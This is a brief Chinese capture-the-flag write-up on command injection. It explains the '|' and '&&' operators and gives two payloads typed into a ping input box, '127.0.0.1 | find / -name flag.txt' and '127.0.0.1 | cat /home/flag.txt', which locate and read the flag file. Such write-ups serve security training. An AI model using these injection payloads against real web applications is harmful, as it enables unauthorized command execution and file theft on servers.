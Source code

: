 ```yaml
---

layout: post
title:  "ctf-command_execution命令拼接"
categories: [ctf]
tags: [命令拼接]

---
```




# command_execution

## **[原理]**

`| 的作用为将前一个命令的结果传递给后一个命令作为输入`

`&&的作用是前一条命令执行成功时，才执行后一条命令`

## **[目地]**

掌握命令拼接的方法

## **[环境]**

windows

## **[工具]**

firefox

## **[步骤]**

1.打开浏览器，在文本框内输入`127.0.0.1 | find / -name "flag.txt" （将 | 替换成 & 或 && 都可以）`,查找flag所在位置，如图所示。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/command_execution/1.png)

2.在文本框内输入 `127.0.0.1 | cat /home/flag.txt` 可得到flag，如图所示。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/command_execution/2.png)